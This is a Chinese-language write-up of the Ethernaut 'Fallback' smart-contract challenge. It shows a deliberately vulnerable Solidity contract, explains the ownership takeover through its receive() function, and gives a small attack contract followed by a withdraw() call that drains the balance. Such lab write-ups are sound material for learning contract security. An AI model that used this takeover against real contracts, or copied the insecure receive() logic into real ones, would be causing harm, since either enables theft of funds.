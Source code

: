 # 1.Fallback

## 题目描述

![img](../../../.vuepress/public/img/1644591344102-d0b820ba-3170-409d-af68-40ae27bb1031.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

注意两个部分

```javascript
// 记录用户地址对合约的贡献量，当用户当前的贡献值大于 owner(定义为1000)，获得 owner权限
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
// fallback函数，当使用 send() 方法发送数据给合约时总会调用该方法
// 定义参考文章：https://me.tryblockchain.org/blockchain-solidity-fallback.html
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

思路如下

![img](../../../.vuepress/public/img/1644969666406-324e6b41-6977-457b-b7c2-0c74857ae95f.png)

攻击合约部署

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./debug.sol";

contract Attack is Fallback {

  address payable addr = 0x67C2b4b52c4246BB32C200B475062e7882DB265D;
  Fallback att = Fallback(addr);

  function obtain_owner() public payable {
   payable(addr).send(msg.value);
  }
}
```

调用 contribute方法发送 1 wei

![img](../../../.vuepress/public/img/1644969951341-1a29afd1-0013-4272-b5b6-2c4002275ba6.png)

使用 send() 方法发送 1 wei， 触发 fallback

![img](../../../.vuepress/public/img/1644970037101-55252b1b-ea70-4343-909e-e1b0ed484f44.png)

调用后查看 owner权限，已经成功获取

![img](../../../.vuepress/public/img/1644970116976-700eca53-d7fb-4fd3-bfe5-a1ab7cf20e41.png)

最后调用 withdraw方法  完成关卡